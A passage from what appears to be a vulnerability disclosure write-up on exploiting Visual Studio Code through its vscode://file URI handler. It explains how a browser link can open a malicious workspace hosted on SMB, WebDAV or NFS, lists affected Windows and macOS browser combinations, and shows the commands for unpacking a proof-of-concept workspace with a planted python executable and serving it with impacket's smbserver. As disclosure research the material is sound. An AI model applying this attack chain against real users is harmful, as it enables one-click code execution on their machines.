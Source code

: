 ## Exploitation via the browser

Visual Studio Code registers a URI handler that allows Visual Studio Code to
be opened by the browser with a Workspace path of the attacker's choosing [10]
[11].

A valid URI looks like this:

```
vscode://file/<path_to_file>
```

On Windows we can use a SMB or WebDAV server to host the malicious Workspace.
WebDAV may be useful if SMB egress traffic is blocked, however, it is quite
unreliable in my testing. Sometimes I needed to first browse to the WebDAV
URI via explorer.exe before triggering the attack. Someone who knows more
about Windows and WebDAV than I might be able to trigger this session via the
browser alone, or otherwise make the attack more reliable.

This gives us:

* Two-click exploitation on Windows 7 (IE 11)
* One-click exploitation on Windows 7 (Chrome and Firefox) 
* One-click exploitation on Windows 10 (Edge, Chrome and Firefox)

On macOS we can use `autofs` (Installed and available by default) via
`/net/<SERVER>` to host the malicious Workspace via NFS [12].

This gives us:

* One-click exploitation on macOS 10.14.6 (latest at time of writing) - Safari, Chrome and Firefox

**Update:** I believe macOS Catalina changed the default `autofs` setting that
made exploitation via the browser possible on macOS. Hence, modern macOS
machines may not be exploitable directly via the browser using NFS.

Set up the SMB server:

```
% mkdir smbroot

% unzip -d smbroot pythonpath_poc.zip
   creating: smbroot/pythonpath_poc/                                                                                                                                                                                                                                       
   creating: smbroot/pythonpath_poc/.vscode/                                                                                                                                                                                                                               
  inflating: smbroot/pythonpath_poc/.vscode/settings.json
   creating: smbroot/pythonpath_poc/.vscode/zzzz/
  inflating: smbroot/pythonpath_poc/.vscode/zzzz/python.exe
  inflating: smbroot/pythonpath_poc/.vscode/zzzz/python

% sudo ~/impacket/examples/smbserver.py smbroot ./smbroot
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
